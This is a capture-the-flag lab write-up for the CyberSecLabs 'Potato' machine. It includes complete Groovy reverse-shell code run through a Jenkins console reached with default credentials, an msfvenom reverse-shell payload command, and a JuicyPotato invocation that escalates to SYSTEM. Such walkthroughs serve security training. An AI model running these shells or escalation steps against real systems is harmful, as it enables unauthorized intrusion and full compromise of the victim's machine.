 # CyberSecLabs : Potato



Run a full nmap scan: Notice port 8080. It has Jenkins login, admin:admin 


![Locating node](./locate.png)


Pure groovy/ java reverse shell.
>https://gist.github.com/frohoff/fed1ffaab9b9beeb1c76

![Putting a reverse shell](./console.png)


Reverse shell code:

```
String host="10.10.0.40";
int port=443;
String cmd="cmd.exe";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();

```

check the listener for a shell at port 443. 

whoami/priv:
SeImpersonateToken 
Also, box name is a big hint. My all time favourite ```Juicy Potato```.

Upload the JuicyPotato.exe
Upload the msfvenom reverse.exe as usual

```zsh
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.0.40 LPORT=53 -f exe > rev.exe
```

```cmd
JuicyPotato.exe -l 1337 -p rev.exe -t * -c {4991d34b-80a1-4291-83b6-3328366b9097}
```

Check the listener at port 53, you will have a SYSTEM shell
